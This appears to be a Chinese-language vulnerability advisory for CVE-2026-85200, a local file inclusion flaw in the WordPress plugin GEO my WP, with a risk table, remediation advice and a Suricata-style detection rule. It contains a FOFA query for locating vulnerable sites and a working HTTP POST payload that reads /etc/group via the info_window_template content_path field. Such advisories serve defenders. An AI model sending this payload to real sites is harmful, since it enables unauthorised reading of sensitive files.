

# Wp_GEOmyWP-CVE-2026-85200-本地文件包含

Wp_GEOmyWP-CVE-2026-85200-本地文件包含，攻击者可进行读取系统内任意敏感信息。

# 影响版本

GEO my WP <=4.5.5.3

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/geo-my-wp/"

POC/EXP：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host:127.0.0.1
Content-Type: application/x-www-form-urlencoded

action=gmw_info_window_init&location[object_id]=1&location[location_id]=1&form[component]=posts_locator&form[prefix]=pt&form[info_window_template][content_path]=/etc/group
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"WordPress GEO my WP - admin-ajax.php gmw_info_window_init 本地文件包含 (CVE-2026-85200)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/wp-admin/admin-ajax.php";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"action=gmw_info_window_init"; nocase;
        content:"info_window_template"; distance:0; nocase;
        content:"content_path="; distance:0; nocase;
        content:"/etc/group"; distance:0; nocase;
    metadata:
        service http,
        affected_product "WordPress GEO my WP <=4.5.5.3",
        cve "CVE-2026-85200",
        vulnerability_type "Local File Inclusion / Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000744;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
